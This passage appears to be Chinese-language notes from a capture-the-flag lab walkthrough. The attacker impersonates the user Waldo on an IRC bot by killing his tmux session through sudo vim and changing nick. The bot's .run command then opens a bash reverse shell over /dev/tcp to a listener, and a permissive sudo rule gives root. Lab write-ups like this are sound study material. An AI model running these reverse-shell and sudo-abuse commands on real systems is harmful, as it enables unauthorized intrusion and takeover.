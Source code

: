 04:59 < wallabys1hat> .help
04:59 < wallabysbot> wallabys1hat: I'm sending you a list of my commands in a private message!
这时候执行：/wc   ----就会进入到环境界面

05:00 <wallabys1hat> .run ls
05:00 <wallabysbot> Hold on, you aren't Waldo?
----------------------------


回到第一个1）发现的irssi.sh脚本：

发现Waldo正在使用tmux满足IRC需求，如果服务装置出现故障，就是说tmux掉线了，IRC也会跟着掉线！

who
waldo    pts/0        Mar 24 23:50 (tmux(717).%0)

或者用：ps -aux | grep waldo 查看
发现用户waldo启动tmux的进程是717！

继续使用Vim发出kill命令：
sudo -u waldo /usr/bin/vim /etc/apache2/sites-available/000-default.conf
!kill 762


Waldos IRC连接中断后，更改名称：
/nick waldo

欺骗对方用waldo身份运行开启反弹shell，.run获取反向shell即可

nc -vlp 9090    ----这个地方需要逻辑清晰！！仔细看视频！

.run bash -c 'bash -i >& /dev/tcp/192.168.139.131/9090 0>&1'

这时候就拿到了wallaby权限！的shell！

------------------------------------------------
------------------------------------------------
方法3：sudo all提权

sudo -l

User wallaby may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL

sudo su   ---成功拿到root权限！！





拓展新知识：kali执行！
教程参考：
https://tieba.baidu.com/p/5270992068?red_tag=2887250276


apt install hexchat
hexchat

登录进来后选择Rizon->编辑->自动加入频道->填写#wallabyschat->勾选自动连接到此网络
->服务器->项目IP（192.168.253.180）->点击关闭

关闭后第二个界面：
昵称：wallabyschat
第二选择：root
第三选择：root
用户名：wallabyschat
点击链接！！！！

